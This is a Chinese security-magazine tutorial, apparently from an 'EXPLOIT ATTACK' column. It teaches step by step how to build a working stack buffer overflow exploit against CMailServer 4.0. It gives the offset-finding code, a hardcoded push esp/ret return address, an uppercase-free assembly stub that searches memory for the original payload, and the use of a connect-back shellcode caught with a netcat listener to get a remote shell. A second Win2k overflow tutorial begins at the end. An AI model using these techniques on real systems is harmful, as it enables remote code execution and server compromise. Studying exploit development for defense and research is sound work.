

图 1

呵呵，如果你看过一些入门的文章，应该知道这就是一个典型的栈溢出，不过不清楚也没有关系，我们一起做下去。

我们来写一个 C++ 的小程序，把我们刚才做的那些事情让计算机去做。不要小看这个程序，这可是 Exploit 的最初雏形，我们可以从这里一步一步地修改出最终的梦幻版本！——重新打开桌面上的 CMailServer，执行我们的 1.cpp，看看，刚才的错误窗口又弹出来了。

> 本文相关的 cpp 文件都已经放入光盘中，大家可以参考对照学习。

好，到这里，需要解释一些简单的东西。首先，0x61616161 是多少？我们不用去看这个 16 进制数对应的数字，在 cmd.exe 窗口中按住 Alt 键再按小键盘上的 97（=0x61），然后一起放开，看到的是不是一个小写的“a”？这和我们刚才输入的大写“A”之间的关系决不是巧合，这里留一个伏笔，我们到后面就知道是怎么一回事了。另外，怎么会出现这样的错误呢？其实是执行到内存中的 0x61616161 地址上了，这个地址和我们刚才的输入有关系。换句话说，就是我们可以通过输入来改变程序的执行流程。现在我们就会想，既然能够控制程序的流程，那么能不能让程序做点什么呢？哈哈，这就是关键了！

把问题放在这里，我们先去解决另外一个令人困惑的问题，我们输入了这么多的“A”，到底是哪几个成为了上面那个错误对话框中的 0x61616161？或者，对于看过溢出入门文章的朋友们来说，怎么去快速定位溢出点呢？

再次回到 VC 下面，修改刚才的程序，在 main 函数中有这么一句：

```cpp
memset(szUser + 5, 'A', 800);
```

这是在“USER”后面加上了 800 个“A”，如果加的是其他字符呢？修改一下，把这句话替换掉：

```cpp
for(int i = 0; i < 800; i++)
    memset(szUser + 5 + i, (char)(i % 100 + 100), 1);
```

再执行一下，这次出现的错误框成了“0x7f7e7d7c 指令应用的 0x7f7e7d7c 内存。该内存不能为 read”，如图 2 所示。



图 2

好，我们记录下这个数字，看来这次程序执行到内存中的 0x7f7e7d7c 地址去了，再次修改刚才的程序，把 `(char)(i % 100 + 100)` 中的取余数改成整除。

```cpp
for(int i = 0; i < 800; i++)
    memset(szUser + 5 + i, (char)(i / 100 + 100), 1);
```

再次启动 CMailServer，执行我们的小程序（光盘中附带的 2.cpp），这次出现的错误框成了“0x69696969 指令应用的 0x69696969 内存。该内存不能为 read”，如图 3 所示。


图 3

现在可以定位了，为什么呢？分析一下上两次我们做的事情，第一次是在“USER”后面不停地加上 ASCII 码为 100～199 之间的数字，第二次是以 100 为一段，数字分别是 100、101、102……第一次溢出的时候，最小的一个数是 0x7c，也就是 10 进制的 124，整个字符串中只有在 i 为 24、124、224……的时候才有这个字符，所以大胆地确定尾数是 24。第二次溢出的时候全部是 0x69，也就是 10 进制的 105，即在字符串的第 5 个段，所以可以大胆地确定第 524 个字符开始，就是让程序执行的到异常内存导致出错的关键！

# EXPLOIT ATTACK

栏目编辑／脚本小子／softbug/scriptsboy@hacker.com.cn

再改一下程序，指定从 i 等于 524 开始的 4 个字符的地址。对了，还有一句，因为计算机的设计原因，我们输入的是“7c7d7e7f”，但是换成了地址就成了倒过来的“0x7f7e7d7c”，学过汇编应该明白，不过不理解也没有关系，记住就可以了：

```cpp
for(int i = 0; i < 800; i++)
    memset(szUser + 5 + i, (char)(i / 100 + 100), 1);
*(int *)(szUser + 5 + 524) = 0x12347678;
```

代码如上修改以后，猜想一下应该执行到内存的 0x12347678 地址去了吧？试试看，执行一下这个程序（3.cpp），果然，弹出的错误对话框成了“0x12347678 指令应用的 0x12347678 内存。该内存不能为 read”。再修改成 0xaaaaaaaa 或者其他，是不是都一样？这样子我们就已经定位了溢出点，可以随意控制程序的流向了，搞定！

> 以上溢出点定位的方法非常巧妙和准确，以后会经常用到哦！

那么，让程序流到什么地方呢？最好是我们自己提交的字符也是一段程序代码，让 CMailServer 来执行我们的代码，不就可以获得梦寐以求的 Shell 了么？好像现在所有的 Exploit 都是这么做的，我们也来试试看。下面要用到 Ollydbg 了，开始有一点麻烦了。

先把挂掉的 CMailServer 打开，然后打开一个 Ollydbg，选择“文件”->“附加”，在弹出的窗口中选择 CMailServer，确定后在“调试”菜单下面选择“运行”或者直接按 F9，这样我们就可以通过 Ollydbg 来调试 CMailServer，如图 4 所示。这个过程要做熟，因为以后会做很多次。

回来打开我们的 VC，运行刚才的程序，这下子没有了对话框，而是 Ollydbg 把程序的错误给拦截了下来，仔细看 Ollydbg 的左下角状态栏，“访问违反。正在执行 [12347678]……”，程序确实执行到 0x12347678 去了，如图 5 所示。



图 4



图 5

保持这个状态不要动，在地址的子窗口里面点右键，选择“前往”，然后在对话框内输入 esp，看看到了什么地方。如图 6 所示，这就是我们输入的字符串，而在前面一点，就是我们输入的“0x12347678”，由于高位取反的缘故，变成了“78 76 34 12”，不过我们还是认得出来。



图 6

这里就是溢出的最关键地方，理论上我们可以直接定位，跳到 0x02fd9014 也就是 esp 的值上面去，但是这个地址只是对我的机器而言而且是这一次的运行有效，我想你的机器上应该不是这个地址吧？不管怎么样，esp 指向的内容是一定的，所以聪明的 Hacker 想了一个办法，在内存中寻找一个固定的地址 A，这个地址 A 处对应的指令是 call esp，然后我们指定程序跳转的地址是 A，在溢出的时候，先到了 A 处，然后一个跳转就可以准确跳到我们发送的字符串上面了。如果我们的字符串刚好是一个可以执行的代码，那么计算机也会老老实实去执行。

> **脚本小子** 定位“call esp”之类的指令在 Exploit 中起到了非常重要的作用。在不同的版本中，同一名字的动态链接库文件的这类指令地址可能不是完全一样，这也正是很多 Exploit 要针对特定的操作系统和补丁情况的原因。如果你能够找到特定版本的这类地址，也可以自己修改这些地址以适应不同版本。

顺带解释一下为什么可以找到一个相对固定的 call esp 地址：Windows 中会加载很多动态链接库，这些动态链接库的加载地址有固定的，而在很多版本中，这些动态链接库几乎没有改动，所以找上个把的 jmp esp 地址还是很容易。这个地址，可以用现成的，也可以自己找。打个比方，lion 原来给过一个中文版下 2000/XP/2003 都通用的 pop/pop/ret 地址 0x7ffa1571，我们猜想这附近的数据在这几个版本的 Windows 下都是相同的，所以我们可以在这附近找找看。call esp、jmp esp 和 push esp/ret 的指令效果相同，前面两个在 XP/2003 下面会失败，所以找找最后的一个指令串看看，我先给一个 0x7FFA9C1B 看看，后面再说怎么找。

再次回到 VC 下面，把跳转的地址改成 0x7FFA9C1B，用 Ollydbg 调试 CMailServer（还记得么，过程在上面），运行一下。看看 Ollydbg，已经运行到 esp 的地址上面去了，虽然出错了——0x69696969 是一长串非法的指令，Ollydbg 因此而停了下来，如图 7 所示。



图 7

把这一串串的 69 换成 Shellcode 就可以了么？理论上是这样的，我们先找一个别人写好的 Shellcode，把这里的 69696969 改成 Shellcode（3a.cpp）。Shellcode 虽然很重要，但是要写一个溢出程序不一定要自己写 Shellcode，外面有很多，随便拿一个来用就可以，比如这里，我用的是 eyas 的 connect back 的 Shellcode，MShell 函数也是固定的格式。关于 shellcode 的制作，可以参看其他的文章。

> **脚本小子** MShell 函数用来将反向连接的 IP 地址和端口加入到 Shellcode 之中，以便于可以正确连接我们所指定的 IP 地址和端口。

打住一下，事情并不是这么简单，这里我们拖动一下左下地址栏窗口的滚动条，是不是附近一个大写字母都没有？我们提交的数据已经全部被修改过了，所以直接给 Shellcode 还不行——就算给了 Shellcode，确实会执行上去，但是 Shellcode 已经和我们提交的那个不一样，硬上的话只是会发生异常，如图 8 所示。



图 8

一般的溢出文章大约到此给个 Shellcode 就可以了，我想这里就是一点不同的地方，有了些许的挑战性，而实际情况中，这种事情应该还是很常见的，好像 Serv-U 的最近连续两个溢出都是同样的情况。

先从实际情况来分析一下。在左下地址栏窗口中，滚动条的拖动范围稍微大一点，往下面看，到了大约 0x2FDBXXX 的地方的时候，又发现了我们提交的数据的另外一个拷贝，仔细观察一下，好像就是原始的数据。如果能够到这里来执行的话，提交的是什么就执行的是什么了！可以考虑在获得控制权的时候先搜索一下内存，找到这一片原始的数据，然后跳过来执行。至于控制权，呵呵，我们在前面的一步不是已经得到了吗？

好了，既然我们提交什么就能执行什么，那我们就提交一个搜索 Shellcode 的代码，在内存中找到原始的 Shellcode，然后跳过去执行就能满足要求。设想是这样：esp 指向是当前被修改过的字符串，从这里开始往下找，找到原始的字符串后跳转过去执行。关于判断是否是原始字符串的问题，通过观察看到，明明提交的是大写的字母，却变成了小写，可以设想 CMailServer 把提交的字符串中的大写字母变成了小写字母，我们只要设定一个大写字母构成的标志，在搜索的时候发现了大写的标志，就认为找到了原始的字符串。先写一个框架如下：```asm
mov eax, 'NEWS'    ; 设定标记
mov ebx, esp       ; 从 esp 开始找起

a:  add ebx, 1     ; 向下找
    cmp [ebx], eax ; 此处是，找到了
    jnz a          ; 没有的话继续向下
    add ebx, 3     ; 找到了的话，跳过这几个字符
    jmp ebx        ; 再跳转进去
```

VC中是可以嵌入汇编的，而且可以方便地看汇编后的代码，嵌入汇编以后，按F10调试，然后按Ctrl+F11就可以看到（如果没有看到，可以试试看右键菜单中的“Code Bytes”），后面是编译后的代码，前面就是机器码，如图9所示。

```text
（图9：调试器/反汇编窗口中的编译结果与机器码示意）
mov eax, 'NEWS'
mov ebx, esp
inc ebx
cmp [ebx], eax
jnz a
add ebx, 3
jmp ebx
```

图9

这里还有一个问题，不知道大家有没有想到。这些代码是要执行的，而且是在被修改了以后的字符串，所以还不能有大写的字母，即ASCII码在0x41到0x5A之间的字符。要是有的话，被CMailServer一转换，全成了小写字母，到时候都不能正常执行，这个道理和不能直接加Shellcode是一样的。那么，把上面的东西改一下，看看能不能避免ASCII码在0x41到0x5A之间的字符，如果可以，不管CMailServer怎么转换，都没有关系。

出问题的指令主要在`mov eax, 'NEWS'`和`inc ebx`。第一个，咱们退而求其次，用一个减法；后面的`inc ebx`，也用一个加减法。

```asm
mov eax, 'NEWS'  =>  mov eax, 'news'
                     sub eax, 0x20202020

inc ebx          =>  add ebx, 1    或者 sub ebx, -1
```

再编译一下看看机器码，ASCII码在0x41到0x5A之间的字符全部没有了，这也算是符合要求吧。我们把这一段汇编编译后的机器码收集起来，加在前面的跳转地址后面，也就是esp指向的地方，在溢出的时候，它们就可以被执行到。接下来设定大写的标记，然后加上Shellcode，全部组成一个程序，就成了程序4.cpp。

现在整体看一下这个好长的字符串，前面是一大堆的垃圾字符，然后在`szUscr + 5 + 524`的地方是`0x7FFA9C1B`，接下来是我们花了不少力气写的寻找没有被修改过的字符串的Search code，然后是一个标记，最后是Shellcode。用L表示垃圾字符，R表示`0x7FFA9C1B`这个`push esp/ret`的地址，S表示Search code，F表示标记“NEWS”，C表示Shellcode的话，是下面一张表。

| L' | R' | S' | F' | C' |
|---|---|---|---|---|
| L | R | S | F | C |

这也是内存中的表示，加了“'”是表示这是被修改后的字符串，实际上我们获得控制权是通过溢出。我们不管是怎样获得的，反正就是执行到了R'给定的地方（`0x7FFA9C1B`），然后跳转到了esp指向的地方即S'，S'向下搜索到F，最后一个跳转，跳到了C。

这其中，L和L'是不一致无所谓，R和R'、S和S'一定要一样，也就是不能含有大写的字母，不然执行的时候就变了。F和F'一定要不一样——如果一样的话，就没有办法定位原始数据与被CMailServer修改过的数据的位置。最后C'和C是不一样的，要是一样的话，我们就不用花这么大的力气去写一个Search code。当然改Shellcode也是可以的，要改到没有ASCII码在0x41到0x5A之间的字符太困难，所以还是算了。

试试执行的结果，在本地监听一个端口1111（`cmd.exe`下面`nc -l -vv -p 1111`），是不是出来了Shell？呵呵，一个Exploit就这么写好了。好像不用去看反汇编后的CMailServer，也不用对溢出有多么深刻的理解，我们只要知道溢出后能够执行到我们自己提交的字符串上面去，然后想办法让它执行正确的Shellcode就成。上面的过程同样适用于最近的一个Serv-U的`mdtm`溢出，过程麻烦一点，但道理都是一样。

下面说说那个寻找`push esp/ret`的方法。首先我们要确定一下这个的机器码是多少，在VC中嵌入汇编，按照前面的方法看到编译后的机器码，是`54 C3`。在OllyDbg左下角的地址框中间，先到一个地方`0x7ffa1571`——lion在这里找到了通用的另外一个代码，我们的猜想是在附近能够找到我们想要的代码。右键选择搜索，HEX栏填入`54 C3`，然后就可以找到匹配的，按Ctrl+L键看看，能够找到很多呢！:)

最后还有个小问题，前面的ret地址的定位，如果是固定长度的话，确实可以通过两次溢出定位，但是实际上这个是和安装的路径有关的，还有没有好一点的方法来定位呢？不知道有没有哪位大师可以为在下解惑啊？

> 编后：

对很多想学习溢出的朋友来说，要找到一份手把手教并配图详解的教程还真不容易，所以我相信本文对于那些想学溢出而一直苦于没有机会练手的朋友来说，这绝对是一份相当好的教程。我们在光盘中提供了本文中提到的相关程序以及本文实验所使用的目标软件GMail Server 4.0，有了这些，学会写Exploit也就容易多了。

## 带你进入Windows缓冲区溢出的神秘地带



文／www417[c4st]

- 适合对象：编程爱好者，系统研究员
- 前置知识：C语言，汇编语言，VC++ 6

> 本文的测试环境

win2k adv server sp3，vc++6.0，  
KERNEL32.DLL 版本号：5.00.2191.1  
USER32.DLL 版本号：5.00.2195.6097

脚本小子：小编最近迷上了缓冲区溢出漏洞的资料收集，刚开始是找网络上缓冲区溢出漏洞技术的文章，后来发现，一些帖子由于反复被转载，出现了很多遗漏，这样就让很多想学习的朋友一头雾水，而且也形不成系统，学不到扎实的技术。考虑到现在很多读者对这个感兴趣，我们将开展系列的溢出漏洞分析和讨论。本文将结合小四的《Windows 2000缓冲区溢出入门》和ipxodi的《window系统下的堆栈溢出》总结作者自己的学习经验，带着大家一起进入“win2k下的缓冲区溢出”的神秘地带……

首先看看原著四哥的文章，发现四哥的在内存中查找FF E4的程序有处明显的问题，不知道是不是我自己看漏了？呵呵，原文请看这里：

http://www417.tocare.net/topindex/beginwinoverflow.txt

按照四哥的方法生成一个支持MFC的文件，打开cpp文件，可以看到已经有很多代码了，对照原来的程序，把：

```cpp
cout<<"OPCODE found at: 0x"<<
```

修改成：

```cpp
printf("\n0XFF 0XE4 在系统加载%s dll找到：0x%0x", dllname, pos);
```

还要添加上头文件：

```cpp
#include "stdio.h"
```

剩下的照旧就可以（其实也可以按四哥的用`cout`输出，只是我习惯用`printf`而已）。

在四哥的文章中使用的是USER32.DLL，而我的例子中使用的是KERNEL32.DLL，因为我在adv server版中找到了两处FF E4。确保这个程序能够在你的系统正常运行，之后我们就可以开始了：

由于四哥文章的例子是弹出一个messagebox，而ipxodi的例子是98下弹出command.com，这里我们结合一下，尝试在Win 2000下弹出一个command.com。

首先利用四哥的溢出程序，并不复杂，调试通过后，建立一个overflow.txt，我们用来填充overflow.txt，当填充字符串长度为24时如下：

```text
aaaaaaaaaaaaaaaaaaaaaaaa
```

运行程序并观察弹出的对话框信息如下：

```text
"0x61616161" 指令引用的 "0x61616161" 内存。该内存不能为 "read"。
```

我不清楚其他win32系统是不是也是这个长度，你要根据自己的机器调试。好了，现在程序已经发生溢出了，跳到`0x61616161`执行去，这个地址是我们随便使用的填充字符，系统当然要出错。

怎么利用呢？这就要看一下程序的运行机理了，以下是四哥溢出程序的部分汇编代码：



这段代码是在程序最后：

```cpp
return nRetCode;
```

这里设断点观察到，很显然ebp把地址传给了esp。在这几句汇编处我们单步运行看看详细的情况，按F10单步运行完：

```asm
pop ebp
```

以后，我们发现ebp的内容变成`0x61616161`，再运行ret，程序就跳到`61616161`？？？运行并出错了。修改overflow.txt中最后四个a为b，并且再加上4个c，变成如下这个样子：

```text
aaaaaaaaaaaaaaaaaaaabbbbcccc
```

试验一下：

```text
"0x62626262" 指令引用的 "0x62626262" 内存。该内存不能为 "read"。
```

